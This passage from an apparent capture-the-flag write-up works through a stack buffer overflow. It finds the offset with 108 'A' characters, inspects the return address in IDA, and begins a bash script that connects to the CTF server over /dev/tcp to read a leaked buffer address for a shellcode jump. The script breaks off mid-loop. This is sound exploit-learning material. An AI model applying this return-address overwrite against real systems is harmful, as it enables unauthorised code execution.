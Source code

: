 I created a file containing 108 `A` characters to pass as input to the program so we can see this on the stack:
```
python -c "printf('A'*108)" > inp.txt
```
When stepping through in IDA's debugger, we can see these `A` characters appear on the stack at 0xffd06a4c:

![Stack after scanf()](stack_after_scanf.png)

We can also see the return address on the stack at 0xffd06abc:

![Stack with return address](ret_addr_on_stack.png)

As the location of the buffer could change on each run, we may need to enter the value manually for now and try and trace through it in IDA to check we can start executing the buffer from the return call.

Unfortunately, entering binary hex values into a prompt cannot be done from the keyboard, so we can only test this with a script that can read the location of the buffer, and use that to fill in the value in the return address. This means we might as well go ahead and try things directly against the server.

First I wrote a basic script, trying to borrow code from [Scripting Gimme Shellcode](https://github.com/neuronflicker/CTF/tree/master/UCF/Scripting_GimmeShellcode) to execute in the buffer:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/9005

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d ':' -f 2 | cut -d 'x' -f 2)
echo Extracted: $buf_addr

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
```